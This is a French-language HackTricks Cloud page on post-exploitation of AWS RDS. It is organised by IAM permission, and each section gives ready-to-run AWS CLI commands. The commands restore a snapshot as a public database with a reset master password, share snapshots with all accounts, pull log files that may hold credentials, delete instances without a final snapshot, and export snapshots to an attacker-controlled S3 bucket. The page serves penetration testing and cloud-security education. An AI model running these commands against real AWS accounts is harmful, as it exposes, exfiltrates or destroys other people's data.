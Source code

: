 # AWS - Post-exploitation RDS

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Si l'attaquant dispose de suffisamment de permissions, il peut rendre une **base de données accessible au public** en créant une snapshot de la base de données, puis une base de données accessible au public à partir de la snapshot.

```bash
aws rds describe-db-instances # Obtenir l'identifiant de la base de données

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Obtenir les groupes de sous-réseaux et les groupes de sécurité
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Se connecter à la nouvelle base de données après quelques minutes
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Un attaquant disposant de ces autorisations pourrait **créer une snapshot d'une base de données** et la rendre **publiquement disponible**. Ensuite, il pourrait simplement créer dans son propre compte une base de données à partir de cette snapshot.

Si l'attaquant **n'a pas la permission `rds:CreateDBSnapshot`**, il peut toujours rendre **publiques** d'autres snapshots créées.

{% code overflow="wrap" %}
```bash
# Créer une snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# La rendre publique
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Spécifier d'autres comptes spécifiques au lieu de tous pour donner accès uniquement à des comptes spécifiques : --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

Un attaquant disposant de la permission `rds:DownloadDBLogFilePortion` peut **télécharger des portions des fichiers journaux d'une instance RDS**. Si des données sensibles ou des informations d'identification d'accès sont accidentellement enregistrées, l'attaquant pourrait potentiellement utiliser ces informations pour escalader ses privilèges ou effectuer des actions non autorisées.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Impact potentiel** : Accès à des informations sensibles ou à des actions non autorisées à l'aide d'informations d'identification divulguées.

### `rds:DeleteDBInstance`

Un attaquant disposant de ces autorisations peut **mettre hors service des instances RDS existantes**.

{% code overflow="wrap" %}
```bash
# Supprimer
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Impact potentiel** : Suppression d'instances RDS existantes et perte potentielle de données.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant disposant de cette autorisation peut **exporter une snapshot d'instance RDS vers un bucket S3**. Si l'attaquant a le contrôle sur le bucket S3 de destination, il peut potentiellement accéder à des données sensibles dans la snapshot exportée.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Impact potentiel** : Accès à des données sensibles dans la snapshot exportée.
